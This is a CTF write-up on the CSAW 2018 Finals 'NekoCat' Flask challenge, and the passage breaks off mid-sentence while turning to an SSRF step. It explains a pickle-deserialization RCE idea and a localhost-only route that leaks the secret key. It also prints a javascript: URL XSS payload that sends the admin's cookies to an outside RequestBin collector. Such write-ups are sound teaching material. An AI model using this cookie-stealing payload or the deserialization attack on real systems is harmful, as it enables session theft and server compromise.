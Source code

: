 > Flag is in /flag.txt
> 
> http://web.chal.csaw.io:1003
> 
> Files
> 
> [flagon.zip](https://ctf.csaw.io/files/5d0977e48372db7e81cbf84752a4c511/flagon.zip)

The website is similar to twitter, where users can create and send posts about whatever they want, and everyone else can see them in one complete feed. 

![Imgur](https://i.imgur.com/KoROMvT.png)

Looking at the zip, we see it's the complete source code of the website, and that it's running the Flask web framework. We see some interesting information in [flagon.py](https://github.com/DDOS-Attacks/ctf-writeups/blob/master/2018/CSAW%20CTF%202018%20Finals/Web/NekoCat/flagon/flagon.py):

```python
SECRET_KEY = os.environ.get("FLAGON_SECRET_KEY", "")

...

class Request(BaseRequest):
    @cached_property
    def session(self):
        data = self.cookies.get("session_data")
        if not data:
            return SecureCookie(secret_key=SECRET_KEY)
        return SecureCookie.unserialize(data, SECRET_KEY)
```
The application has a SECRET_KEY that it uses to create SecureCookie's. The first thing we need to do is figure out how to get the SECRET_KEY so we can sign our own cookies. Once we can sign our own cookies, we can utilize an RCE to get the flag. Because SecureCookie uses [pickle](https://docs.python.org/3/library/pickle.html) by default for serialization, we can exploit the deserialization to execute python code. For more information about python pickle deserialization vulnerabilities, you can visit this [link](https://crowdshield.com/blog.php?name=exploiting-python-deserialization-vulnerabilities).

```python
def flagoninfo(request):
    if request.remote_addr != "127.0.0.1":
        return render_template("404.html")

    info = {
        "system": " ".join(os.uname()),
        "env": str(os.environ)
    }

    return render_template("flaginfo.html", info_dict=info)

class Flagon(object):
    def __init__(self, name):
        self.name = name
        self.url_map = Map([])

        self.routes = {}
        self.wsgi_app = SharedDataMiddleware(self.wsgi_app, {
            '/static': os.path.join(os.getcwd(), 'static')
        })

        flaginfo_route = "/flaginfo"
        self.routes[flaginfo_route] = flagoninfo
        self.url_map.add(Rule(flaginfo_route, endpoint=flaginfo_route))
````
In order to get the value of SECRET_KEY, we have to be able to access http://web.chal.csaw.io:1003/flaginfo. Trying to directly access it returns a 404, which makes sense because according to the source code, we can only view the webpage if our ip address is `127.0.0.1` or localhost. Obviously we aren't localhost, so we need to find a different approach.

In [app.py](https://github.com/DDOS-Attacks/ctf-writeups/blob/master/2018/CSAW%20CTF%202018%20Finals/Web/NekoCat/app.py), we see the following:

```python
@app.route('/report')
@apply_csp
def report(request):
    #: neko checks for naughtiness
    #: neko likes links
    pass
```

This implies that there's some "admin" that automatically will click on any links we have in our post. With these type of problems, you normally want to exploit some type of XSS vulnerability so you can steal an admin's cookies. Normally with XSS vulnerability, you have to be able to inject some javascript into an html tag, but in this question we can only control a link. However, if we look at the csp, there's a way to achieve XSS with only a link:

```python
def apply_csp(f):
    @wraps(f)
    def decorated_func(*args, **kwargs):
        resp = f(*args, **kwargs)
        csp = "; ".join([
                "default-src 'self' 'unsafe-inline'",
                "style-src " + " ".join(["'self'",
                                         "*.bootstrapcdn.com",
                                         "use.fontawesome.com"]),
                "font-src " + "use.fontawesome.com",
                "script-src " + " ".join(["'unsafe-inline'",
                                          "'self'",
                                          "cdnjs.cloudflare.com",
                                          "*.bootstrapcdn.com",
                                          "code.jquery.com"]),
                "connect-src " + "*"
              ])
        resp.headers["Content-Security-Policy"] = csp

        return resp
    return decorated_func
```

For `script-src`, we see that `unsafe-inline` is allowed. Looking at [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) link, it explains what `unsafe-inline` means:

```
'unsafe-inline'
Allows the use of inline resources, such as inline <script> elements, javascript: URLs, inline event handlers, and inline <style> elements. You must include the single quotes.
```

We can use `javascript:` URLs to leverage XSS! A `javascript:` URL will allow us to execute javascript, so we can obtain the admin's cookies. For example if our url was this:

```javascript
javascript:document.location='http://www.google.com/'
```

And the admin clicks on that link, then he would be redirected to www.google.com! Now we construct our own link to steal the admin's cookies. The payload is as follows:

```javascript
javascript:document.location="http://requestbin.fullcontact.com/zfbxyqzf?"+document.cookie
```

![Imgur](https://i.imgur.com/JKVQiIv.png)

RequestBin is a simple site to log HTTP requests, so we can use the service to log the request the admin makes when he clicks on the link, to steal his cookies. AFter creating our post, all we need to do is click on the report link and watch the magic happen.

![Imgur](https://i.imgur.com/KEb29NL.png)

We have successfully obtained the admin's cookies, but what do we do with this now? Also take note with value of the `Referer` header:

```
Referer: http://127.0.0.1:5000/post?id=20809&instance=cf665777-b943-42ad-bf5e-332f8fc7d2ed
```

The ip address is `127.0.0.1`! This means the admin is running localhost, so we can abuse this to access `/flaginfo`! Looking at app.py again:

```python
def get_post_preview(url):
    scheme, netloc, path, query, fragment = url_parse(url)

    # No oranges allowed
    if scheme != 'http' and scheme != 'https':
        return None

    if '..' in path:
        return None

    if path.startswith('/flaginfo'):
        return None

    try:
        r = requests.get(url, allow_redirects=False)
    except Exception:
        return None

    soup = BeautifulSoup(r.text, 'html.parser')
    if soup.body:
        result = ''.join(soup.body.findAll(text=True)).strip()
        result = ' '.join(result.split())
        return result[:280]

    return None
```

Using this `get_post_preview`, we can make the 
